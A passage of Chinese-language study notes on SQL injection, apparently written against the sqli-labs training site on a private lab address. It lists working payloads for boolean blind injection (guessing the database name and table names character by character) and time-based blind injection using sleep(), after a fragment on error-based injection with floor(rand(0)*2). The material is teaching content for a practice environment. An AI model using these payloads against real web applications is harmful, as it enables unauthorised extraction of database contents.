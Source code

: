 2. **`floor(rand(0)*2)` 记录需为3条以上，且3条以上必报错，返回值有规律：**
   - 使用种子为0的`rand(0)`函数，每次调用都会产生相同的随机数，导致所有记录的分组键相同，从而在`group by`时触发报错。

## 2. 布尔盲注

### 2.1 获取数据库名称

1. 判断数据库名长度为8：
   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (length(database()))=8 --+
   ```

2. 逐个字符猜测数据库名，最后得出数据库名为 `security`。

### 2.2 获取数据库表名

1. 获取当前数据库中的表数量：
   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
   ```

   获取第一个表名：
   
   ```sql
   select table_name from information_schema.tables where table_schema=database() limit 1,1;
   
   substr(表名,1,1)> < = ascii
   ```
   
   使用`limit`和`substr`逐字猜解表名。
   
3. 获取数据

   

## 3. 时间盲注

### 3.1 基于时间的盲注示例

- 如果数据库名长度大于0，则延迟10秒：
  ```sql
  if(length(database())>0, sleep(10), 1)
  ```

- 逐字猜测表名并延迟响应时间：
  ```sql
  if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1))=100, sleep(10), 1)
  ```



# 作业

### 报错注入
